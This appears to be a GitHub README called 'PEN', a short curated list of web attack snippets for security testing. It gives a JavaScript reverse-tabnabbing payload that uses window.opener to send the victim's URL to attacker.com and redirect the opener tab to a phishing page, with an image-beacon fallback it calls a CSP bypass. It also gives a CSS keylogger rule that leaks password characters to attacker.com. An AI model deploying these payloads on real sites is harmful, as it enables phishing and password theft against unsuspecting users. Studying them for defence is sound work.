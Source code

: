 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener) {
      // If this site was opened clicking to an `a` element which has setted the target to '_blank',
      // the browser will initialize the `opener` object refered to the browser opener window.
      // This weakness could be used to redirect the opener window to the phishing site.
    
      fetch("//attacker.com/log/start/phishing/?location=" + window.opener.location)
      .then(response => {
        // Wait for the deployment of the phishing site.
        setTimeout(() => {
          // Phishing
          window.opener.location = 
              `https://attacker.com/${response.json().uuid}/${window.opener.location}`
              
        }, 5000)
      })
      .catch(err => {
        // Error, maybe CSP :(
        
        let bypassCSP = new Image();
        bypassCSP.src = "//attacker.com/log/?location=" + window.opener.location
      });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/

